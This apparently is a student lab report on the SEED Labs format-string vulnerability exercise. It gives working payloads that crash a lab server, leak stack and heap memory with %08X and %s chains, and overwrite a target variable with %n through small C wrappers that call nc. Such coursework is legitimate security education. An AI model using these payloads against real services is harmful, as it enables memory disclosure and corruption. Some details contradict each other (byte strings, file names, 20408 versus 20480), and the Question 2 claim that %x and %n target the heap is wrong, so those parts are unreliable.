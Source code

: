# Question 1

## Setup
To start, we disabled address randomization, as the program's address layout and order is crucial for this attack.

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

The server's program.c was compiled with the -z execstack flag to allow code execution within the stack.

We then opened two terminals, one with the server using Docker from Seed Labs and another as a client to communicate with the servers. This setup allowed us to observe messages exchanged between both sides. We then send the string asked to the server:

```bash
$ echo 'hello' | nc 10.9.0.5 9090
```

The server returned necessary information for the following tasks:
- Input buffer address
- Secret message address
- Addresses of a target variable
- Frame pointer for the myprintf function


## Task 1
To crash the server, we sent the following input:

```bash
$ echo '%n' | nc 10.9.0.5 9090
```

The format string attempts to write with %n to a memory address outside the allowed address space of the process caused a crash, resulting in a segmentation fault. The absence of the "Returned properly" message confirmed the server had crashed.


## Task 2

### Task 2.A	
We used "DJLD", represented in hexadecimal as "444A4C44", to print the first 4 bytes of the input from the format string. 
Our initial approach was to input "DJLD" concatenated with multiple "%08x" format specifiers.

```bash
echo "DJLD%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X" | nc 10.9.0.5 9090
 ```

The final "444C4A44" is the address of our input "DJLD". Observing that each address has 8 characters (32-bit addresses), we determined there are 63 stack addresses between the format string and the buffer. Thus, a string with exactly 64 "%x" is needed to print the initial 4 bytes of the input.

### Task 2.B
To print a string from the heap at address 0x080b4008, we encoded the address as "\x08\x0b\x40\x08". With 63 "%08x" and a final "%s", the format string reads from this address and returns the hidden value.

We created a func.c file and compiled it:

```C
#include <stdlib.h>
#include <string.h>

int main() {
    char cmd[296] = "echo \x08\x40\x0b\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %s | nc 10.9.0.5 9090";
    system(cmd);
    return 0;
}
```

```bash
gcc -o func fun.c 
```

And then run it:

```bash
./func
```
 
The server confirmed the message at this address is  "A secret message."


## Task 3

### Task 3.A

Here, we needed to modify the value of the target variable. Initially, it held 0x11223344, and its address was 0x080e5068.
Using %n, like we used in task 1, we could write the count of characters printed so far to the specified address. This approach involved a command similar to Task 2.B, we just wrote to the address instead of reading from it.

The modified func.c file was:

```C
#include <stdlib.h>
#include <string.h>

int main() {
    char cmd[296] = "echo \x68\x50\x0e\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %n | nc 10.9.0.5 9090";
    system(cmd);
    return 0;
}
```
The target value changed.


### Task 3.B

This time, we needed to set the target variable to a specific value: 0x5000 (20480 in decimal). Knowing %n would write the character count, we crafted an input with 20408 characters, and used %.NX, with N = 19980 (computed by subtracting 4 and the 63 * 8 from 20408), to achieve the required count.

The modified func.c file was:

```C
#include <stdlib.h>
#include <string.h>

int main() {
    char cmd[] = "echo \x68\x50\x0e\x08%.19980X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%n | nc 10.9.0.5 9090";
    system(cmd);
    return 0;
}

```
The target variable was now 0x00005000.


# Question 2:

CWE-134 format string vulnerabilities occur when user-controlled data is unsafely passed to formatting functions, allowing attackers to manipulate memory via format specifiers.
When the format string is on the stack:
Reading stack data is easier using %x or %s, as stack addresses and data are accessible.
Writing to the stack with %n allows attackers to overwrite critical stack values, like local variables or return addresses.
If the format string is on the heap:
Reading and writing to the stack becomes difficult, as %x and %n would target the heap instead.
Attacks relying on stack manipulation, like reading stack addresses or overwriting variables, would fail or be less effective.
Allocating the format string on the stack makes attacks easier, while placing it on the heap complicates exploitation, though it doesn't eliminate the risk.

- Task 2.A - Reading Stack Addresses: The %x attack, which reveals stack addresses, would fail because it depends on accessing stack memory. With the format string on the heap, only heap addresses would be revealed.
- Task 2.B (Reading String from Heap): While this attack relies on reading from a specific heap address, the format string's location in the heap would make it harder to control and predict the memory layout, making the attack less reliable.
- Task 3.A - Writing to Stack Variables with %n: Modifying stack variables using %n would also not work since %n would write to heap memory, not affecting the stack variables.
- Task 3.B - Setting a Specific Value on the Stack with %n: Writing a specific value to the stack with %n would fail because %n would target the heap instead of the intended stack address.


